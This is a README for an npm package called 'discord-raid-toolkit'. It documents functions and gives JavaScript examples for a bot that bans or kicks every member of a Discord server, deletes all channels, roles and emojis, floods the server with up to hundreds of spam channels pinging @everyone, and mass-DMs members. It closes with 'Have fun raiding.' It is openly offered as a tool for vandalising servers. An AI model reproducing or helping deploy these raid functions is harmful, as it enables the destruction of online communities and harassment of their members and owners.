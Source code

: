 Discord RAID Toolkit, There is finally one!

*This package is for people who want to make a really op* **raid** *bot in a couple of minutes*


<h1>Functions:</h1>

- `banall(serverid, ban_reason, client_name, event)` - This will allow you to ban every member that is on the guild with the id you provided.
- `kickall(serverid, kick_reason, client_name, event)` - This will allow you to kick every member that is on the guild with the id you provided.
- `deleteAllChannels(serverid, client_name, event)` - This will delete every channel on the guild with the ID you provided
- `createChannelsLoop(serverid, channels_name, times_messsage_is_sent, channel_message, topic, nsfw, channel_cooldown, reason, times, client_name, event)` - This is the whole **raid** practically... It allows you to make a loop for creating channels with really nice options to put in the created channels (the channel_cooldown must be put as seconds, so if you put 10, it will set 10 seconds of cooldown. etc... so if you want a bigger number then google '5 hours to seconds' or '6 hours to seconds' etc..)
- `dmall(serverid, dmall_message, client_name, event)` - It allows you to dm a dmall_message to every member in the guild with the ID you provided
- `deleteAllRoles(serverid, client_name, event)` - It allows you to delete every single role of the guild with the ID you provided
- `deleteAllEmojis(serverid, client_name event)` - It allows you to delete every single emoji of the guild with the ID you provided


<h1>Examples of every function</h1>

**How to ban every member in a guild:** (*banall(serverid, ban_reason, client_name, event)*)
```js
const raid = require('discord-raid-toolkit')
client.on('message', message => {
  if(message.content.startsWith('!banall')) {
    raid.banall(message.guild.id, 'YOU JUST GOT F#CKED BY IDK!', client, message) //this will ban every single member in current guild setting the reason of their ban as 'YOU JUST GOT F#CKED BY IDK!'
  }
})
```


**How to kick every member in a guild:** (*kickall(serverid, kick_reason, client_name, event)*)
```js
const raid = require('discord-raid-toolkit')
client.on('message', message => {
  if(message.content.startsWith('!kickall')) {
    raid.kickall(message.guild.id, 'KICK REASON IN HERE BRUH!', client, message) //this will kick every single member in current guild setting the reason of their kick as 'KICK REASON IN HERE BRUH!'
  }
})
```

**How to delete every channel in a guild:** (*deleteAllChannels(serverid, client_name, event)*)
```js
const raid = require('discord-raid-toolkit')
client.on('message', message => {
  if(message.content.startsWith('!delete-all-channels')) {
    raid.deleteAllChannels(message.guild.id, client, message) //This will delete every single channel in current guild
  }
})
```

**How to create a loop to make 254 (or any if you want this amount is for the example) channels in a guild:** (*createChannelsLoop(serverid, channels_name, times_messsage_is_sent, channel_message, topic, nsfw, channel_cooldown, reason, times, client_name, event)*)
```js
client.on('message', message => {
  if(message.content.startsWith('!create-254-channels')) {
    raid.createChannelsLoop(message.guild.id, 'server f#cked by myself!', '5', '@everyone https://discord.gg/some-invite-code-bruh', 'LMAO! CHANNEL TOPIC!', true, 10, 'They deserved it...', 254, client, message) //the times_message_is_sent field sets the times the channel_message will be sent to created channels, You can always try in a test server and understand much better, nsfw can be either 'true' or 'false', channel_cooldown field is the cooldown for the channels created, it must be put in seconds, so google 6 hours to seconds or 1 hour to second and the convert to seconds is the number you must put (as you see i put 10 in the example so cooldown will be 10 seconds), the reason field is the reason that will be shown up on audit logs when creating any channel, and times is just the times the channels will be created, in the example i put 254 so it will make 254 channels, so there you go!
  }
})
```

**How to dm a message to every member in a guild:** (*dmall(serverid, dmall_message, client_name, event)*)
```js
const raid = require('discord-raid-toolkit')
client.on('message', message => {
  if(message.content.startsWith('!dmall')) {
    raid.dmall(message.guild.id, 'hello bruh' client, message) //this will send the text 'hello bruh' to every member in current guild
  }
})
```

**How to delete every single role in a guild:** (*deleteAllRoles(serverid, client_name, event)*)
```js
const raid = require('discord-raid-toolkit')
client.on('message', message => {
  if(message.content.startsWith('!delete-all-roles')) {
    raid.deleteAllRoles(message.guild.id, client, message) //this will delete every single role in current guild
  }
})
```

**How to delete every single emoji in a guild:** (*deleteAllEmojis(serverid, client_name event)*)
```js
const raid = require('discord-raid-toolkit')
client.on('message', message => {
  if(message.content.startsWith('!delete-all-emojis')) {
    raid.deleteAllEmojis(message.guild.id, client, message) //this will delete every single emoji in current guild
  }
})
```



**After this you are done! i think i explained correctly so that anyone can get it! Have fun raiding.**



UPDATE (0.0.9)
- Now your bot won't spam the console when reaching 500 channels created! The loop will stop when there are more than 498 channels.

UPDATE (0.0.10)
- Removed "type" field in **createChannelsLoop()**

UPDATE(0.0.11)
- Updated README to match with 0.0.10 update

UPDATE (0.2.0)
- Improved package core

